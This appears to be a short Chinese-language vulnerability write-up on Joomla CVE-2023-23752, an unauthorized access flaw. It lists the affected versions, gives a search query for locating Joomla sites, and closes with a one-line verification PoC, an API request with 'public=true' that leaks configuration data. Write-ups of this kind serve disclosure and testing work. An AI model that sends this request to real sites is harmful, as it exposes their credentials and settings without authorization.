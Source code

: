 # Joomla application 未授权访问漏洞 CVE-2023-23752

## 漏洞描述

Joomla 存在未授权访问漏洞，攻击者通过覆盖 public 值绕过限制，访问部分API获取敏感数据

## 漏洞影响

<a-checkbox checked>Joomla 4.0.0 ～ 4.2.7</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Joomla"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://cdn.nlark.com/yuque/0/2023/png/2117730/1678242454009-958400aa-dc91-44de-aa3c-34ad783b9e2a.png)

验证POC

```plain
/api/index.php/v1/config/application?public=true
```

![img](https://cdn.nlark.com/yuque/0/2023/png/2117730/1678242476239-386e7a49-87b2-4919-a2ac-429331bf42a1.png)